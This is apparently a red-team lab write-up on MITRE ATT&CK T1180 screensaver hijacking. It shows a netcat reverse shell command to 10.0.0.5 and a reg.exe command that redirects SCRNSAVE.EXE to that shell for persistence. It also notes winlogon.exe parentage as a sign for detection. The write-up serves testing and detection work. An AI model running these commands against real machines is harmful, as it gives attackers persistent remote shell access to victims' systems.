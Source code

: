 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file. 

In this test, I will use a netcat reverse shell as my malicious payload:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](../../.gitbook/assets/screensaver-shell%20%281%29.png)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}



